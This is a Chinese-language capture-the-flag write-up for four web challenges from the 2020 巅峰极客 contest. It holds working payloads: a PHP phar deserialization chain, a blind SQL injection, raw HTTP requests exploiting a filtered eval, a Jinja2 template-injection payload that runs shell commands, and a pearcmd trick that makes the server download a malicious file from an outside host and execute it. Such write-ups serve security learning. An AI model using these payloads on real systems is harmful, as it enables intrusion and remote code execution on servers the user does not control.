 # 巅峰极客2020

**文章首发于[安全客](https://www.anquanke.com/post/id/218977)**

## babyphp2

文件包含：http://eci-2ze5jqyhfniloont8y3x.cloudeci1.ichunqiu.com/index.php?action=../../../../../../../../../../../var/www/html/login
登入接口ban掉：
```
`,\,@,%,#
```
```
[11:00:52] 200 -   68B  - /index.php
[11:00:53] 200 -   68B  - /index.php/login/
[11:01:33] 200 -  583B  - /login.php
[11:03:57] 403 -  335B  - /server-status
[11:04:19] 403 -  336B  - /server-status/
[11:05:21] 200 -  422B  - /upload.php
[11:05:22] 403 -  329B  - /upload/
[11:05:41] 301 -  383B  - /upload  ->  http://eci-2ze5jqyhfniloont8y3x.cloudeci1.ichunqiu.com/upload/
[11:06:20] 200 -    4KB - /www.zip
```

构造反序列化链：`dbCtrl::__destruct->User::__toString->Reader::__set`

```php
<?php

Class Reader{
    public $filename;
    public $result;
    public function __construct(){

    }

}

class User
{
    public $id;
    public $age=null;
    public $nickname=null;
    public $backup;
    public function __construct(){
        $this->backup="/flag";
        $this->nickname=new Reader();
    }
}
class dbCtrl
{
    public $hostname="127.0.0.1";
    public $dbuser="p3rh4ps";
    public $dbpass="p3rh4ps";
    public $database="p3rh4ps";
    public $name;
    public $password;
    public $mysqli;
    public $token;
    public function __construct(){
        $this->token=new User();
    }
}

$a = new dbCtrl();
@unlink("phar.phar");
$phar = new Phar("phar.phar"); //后缀名必须为phar,phar伪协议不用phar后缀
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub,只要后面部分为__HALT_COMPILER(); 
$phar->setMetadata($a); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();

```


`compress.zlib://phar://phar.phar/test.txt绕过限制`



##  babyback

php:5.6.40



robots.txt



```
User-agent: *
Disallow: /admin
```

```
[12:31:50] 200 -   38B  - /admin/
[12:31:50] 200 -   38B  - /admin/?/login
[12:31:50] 200 -   38B  - /admin/index.php
[12:31:57] 200 -   48B  - /check.php
[12:32:13] 200 -   33B  - /robots.txt
[12:41:07] 200 -   29B  - /admin/.bowerrc
[12:41:26] 301 -  185B  - /admin/assets  ->  http://eci-2ze91js64coeqpjda9u8.cloudeci1.ichunqiu.com/admin/assets/
[12:41:28] 200 -    1KB - /admin/bower.json
[12:41:38] 301 -  185B  - /admin/images  ->  http://eci-2ze91js64coeqpjda9u8.cloudeci1.ichunqiu.com/admin/images/
[12:41:39] 200 -   38B  - /admin/index.php
[12:41:57] 200 -  620B  - /admin/package.json
```
check.php 过滤了： 

```
",',-,=,;,select
```



```
username=aaaa\&password= /sleep(5)%23bbbb
```



存在sql注入

```
账号密码
admin
uAreRigHt
```

![image-20201020155506678](https://raw.githubusercontent.com/Explorersss/photo/master/20201020155506.png)

```
EVAL($COMMAND."=FALSE");
过滤：;,",', ,|,`,^,\,;,/,*,(,),&,$,#,f,F
```

任意文件包含：
```
POST /admin/ HTTP/1.1
Host: eci-2ze3ccxvzrnduzhd4u54.cloudeci1.ichunqiu.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://eci-2ze3ccxvzrnduzhd4u54.cloudeci1.ichunqiu.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://eci-2ze3ccxvzrnduzhd4u54.cloudeci1.ichunqiu.com/admin/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: chkphone=acWxNpxhQpDiAchhNuSnEqyiQuDIO0O0O; Hm_lvt_2d0601bd28de7d49818249cf35d95943=1600698604,1601088882; UM_distinctid=174b11256cb2fd-030f86f83a6db3-333769-240000-174b11256cd6f1; Hm_lpvt_2d0601bd28de7d49818249cf35d95943=1601100971; PHPSESSID=aabua1gfiqc9s8i13u3iqace72; __jsluid_h=89eac162499bc32092c0474accd770c5
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrD05yt5m
Content-Length: 161

------WebKitFormBoundaryrD05yt5m
Content-Disposition: form-data; name="command"

?><?=include<<<DDDD
.bowerrc
DDDD
?>
------WebKitFormBoundaryrD05yt5m--

```

读取flag
```
POST /admin/ HTTP/1.1
Host: eci-2ze3ccxvzrnduzhd4u54.cloudeci1.ichunqiu.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://eci-2ze3ccxvzrnduzhd4u54.cloudeci1.ichunqiu.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://eci-2ze3ccxvzrnduzhd4u54.cloudeci1.ichunqiu.com/admin/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: chkphone=acWxNpxhQpDiAchhNuSnEqyiQuDIO0O0O; Hm_lvt_2d0601bd28de7d49818249cf35d95943=1600698604,1601088882; UM_distinctid=174b11256cb2fd-030f86f83a6db3-333769-240000-174b11256cd6f1; Hm_lpvt_2d0601bd28de7d49818249cf35d95943=1601100971; PHPSESSID=aabua1gfiqc9s8i13u3iqace72; __jsluid_h=89eac162499bc32092c0474accd770c5
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 89

command=%3f%3e%3c%3f%3dinclude%7e%3c%3c%3cDDDD%0d%0a%D0%99%93%9E%98%0d%0aDDDD%0d%0a%3f%3e
```

## babyflask

`GET /loged?name=%7B%7B2*2%7D%7D`
存在SSTI
模板引擎jinja2


```http://eci-2ze3domag0jprtzax0lx.cloudeci1.ichunqiu.com:8888/loged?name={%%20for%20c%20in%20[].__class__.__base__.__subclasses__()%20%}{%%20if%20c.__name__==%27_IterationGuard%27%20%}{{%20c.__init__.__globals__[%27__builtins__%27][%27eval%27](%22__import__(%27os%27).popen(%27cat%20/flag%27).read()%22)%20}}{%%20endif%20%}{%%20endfor%20%}```

拿flag



## MeowWorld

任意文件读取

hint:register_argc_argv

```
register_argc_argv	TRUE	
由于该设置为 TRUE，将总是可以在 CLI SAPI 中访问到 argc（传送给应用程序参数的个数）和 argv（包含有实际参数的数组）。

对于 PHP 4.3.0，在使用 CLI SAPI 时，PHP 变量 $argc 和 $argv 已被注册并且设定了对应的值。而在这之前的版本，这两个变量在 CGI 或者 模块 版本中的建立依赖于将 PHP 的设置选项 register_globals 设为 on。除了版本和 register_globals 设定以外，可以随时通过调用 $_SERVER 或者 $HTTP_SERVER_VARS 来访问它们。例如：$_SERVER['argv']
```



https://khack40.info/camp-ctf-2015-trolol-web-write-up/

找到一个类似的题目，但是他们是用变量覆盖来执行

阅读pearcmd的代码发现：`if (!isset($_SERVER['argv']) && !isset($argv) && !isset($HTTP_SERVER_VARS['argv']))`

![](https://raw.githubusercontent.com/Explorersss/photo/master/20200926190107.png)

```
http://eci-2zeguuukox00jv0u113l.cloudeci1.ichunqiu.com/?list+install+--installroot+/tmp/+http://ccreater.top:60006/install.php++++++++++++++$&f=pearcmd&
```

后面多余部分并不影响我们下载恶意文件





`http://eci-2zeguuukox00jv0u113l.cloudeci1.ichunqiu.com/?f=/tmp/tmp/pear/download/install`

任意命令执行